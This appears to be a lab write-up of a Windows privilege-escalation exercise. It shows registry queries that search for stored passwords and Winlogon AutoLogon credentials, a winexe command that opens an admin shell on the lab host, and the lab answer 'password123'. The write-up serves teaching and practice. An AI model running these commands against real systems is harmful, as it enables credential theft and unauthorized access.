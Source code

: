 (For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123)  

The registry can be searched for keys and values that contain the word "password":

```
reg query HKLM /f password /t REG_SZ /s
```

![[Pasted image 20240528194336.png]]


If you want to save some time, query this specific key to find admin AutoLogon credentials:

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

![[Pasted image 20240528194422.png]]


On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

```
winexe -U 'admin%password' //10.10.212.141 cmd.exe
```

![[Pasted image 20240528194616.png]]


Answer the questions below

| Question                                               | Answer      |
| ------------------------------------------------------ | ----------- |
| What was the admin password you found in the registry? | password123 |
